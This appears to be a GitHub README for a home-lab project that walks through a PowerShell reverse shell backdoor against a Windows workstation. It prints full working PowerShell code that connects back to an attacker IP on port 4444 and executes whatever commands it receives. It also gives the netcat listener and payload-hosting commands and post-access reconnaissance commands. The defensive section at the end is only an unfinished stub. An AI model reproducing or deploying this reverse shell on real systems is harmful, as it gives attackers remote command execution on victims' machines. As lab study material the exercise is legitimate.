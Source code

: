 
# Reverse Shell Backdoor with Powershell Cradle Attack

## Overview

This project demonstrates how to create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the victim's machine.

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali Linux
  - **IP Address:** 192.168.20.30

## Objective
1. Create a malicious PowerShell script (malicious.ps1) to establish a reverse shell backdoor.
2. Use a web server to serve the payload to the target Windows machine.
3. Make the Windows user download and execute the malicious script.
4. Gain remote access to the victim's machine and execute commands of the attacker's choice.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:
```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

### 5. **Execute Commands on the Target Machine**

After successfully establishing the reverse shell, I could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```



Pfsense rules...
CrowdSec ruless...
